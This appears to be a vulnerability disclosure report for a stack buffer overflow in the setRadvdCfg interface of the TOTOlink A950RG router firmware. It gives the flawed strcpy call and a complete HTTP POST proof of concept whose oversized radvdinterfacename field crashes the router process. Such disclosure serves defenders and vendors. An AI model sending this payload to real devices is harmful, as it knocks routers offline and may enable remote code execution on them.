


# TARGET

TOTOlink A950RG Router (Firmware Version V4.1.2cu.5204_B20210112)

# BUG TYPE

Buffer Overflow Vulnerability

# Abstract

A buffer overflow vulnerability exists in the TOTOlink A950RG router running firmware version V4.1.2cu.5204_B20210112. The issue resides in the `setRadvdCfg` interface of the `/lib/cste_modules/ipv6.so` module. The function fails to properly validate the length of the user-controlled `radvdinterfacename` parameter, allowing remote attackers to trigger a stack buffer overflow. Successful exploitation may allow arbitrary code execution or denial-of-service (DoS).

# Details



## Vulnerability Description

The `setRadvdCfg` function in `/lib/cste_modules/ipv6.so` retrieves the `radvdinterfacename` parameter from user input and copies it to a fixed-size stack buffer using `strcpy()`. Since the function performs no bounds checking, an excessively long parameter will overflow the destination buffer and overwrite adjacent memory.

Reverse engineering using IDA identified the entry point of the vulnerable code at address  **0x00003EC4** . The parameter is copied as follows:

```
strcpy(dest, p_dest);
```

Because `strcpy` performs no validation of the input length:

* A long `radvdinterfacename` string overwrites stack memory
* The overflow may corrupt saved registers, local variables, or return addresses
* This can lead to process crashes or, under certain conditions, arbitrary code execution

Remote attackers can exploit this vulnerability by sending a maliciously crafted HTTP request containing an oversized `radvdinterfacename` parameter. No authentication is required if the management interface is exposed.

## Local Reproduction Environment

* **Device:** TOTOlink A950RG
* **Firmware Version:** V4.1.2cu.5204_B20210112
* **Manufacturer Website:** [https://www.totolink.net/](https://www.totolink.net/)
* **Firmware Download:** [https://totolink.tw/support_view/A950RG](https://totolink.tw/support_view/A950RG)

Prior to exploitation, the router’s management interface was accessible normally.

After sending the crafted payload, the router process handling the IPv6 configuration becomes unstable or crashes, confirming the buffer overflow.

# POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 2240
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/internet/ipv6_radvd.asp?timestamp=1760672417059
Cookie: SESSION_ID=2:1760672401:2
Priority: u=0

{"topicurl":"setting/setRadvdCfg",
 "enable_radvd":"1",
 "radvdinterfacename":"br0br0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",
 "MaxRtrAdvInterval":"6",
 "MinRtrAdvInterval":"3",
 "MinDelayBetweenRAs":"3",
 "AdvManagedFlag":1,
 "AdvOtherConfigFlag":1,
 "AdvLinkMTU":"1500",
 "AdvReachableTime":"0"}
```

The oversized `radvdinterfacename` triggers a crash or abnormal behavior due to stack buffer overflow.

# Vulnerability Analysis

Using IDA Pro, analysis of `/lib/cste_modules/ipv6.so` shows that the `setRadvdCfg` function:

1. Reads the `radvdinterfacename` parameter from the incoming HTTP request
2. Assigns it to a pointer (`p_dest`)
3. Copies it directly into a fixed-size stack buffer (`dest`) via `strcpy`
4. Performs no length validation or boundary checking

Because the buffer size is smaller than the input provided in the proof-of-concept request, the `strcpy` call overflows the buffer and overwrites adjacent stack data. This may:

* Crash the process due to stack corruption
* Allow control-flow hijacking if return addresses are overwritten
* Enable remote arbitrary code execution depending on the memory layout

An attacker may exploit this vulnerability by sending a crafted HTTP request to the router’s IPv6 configuration interface.

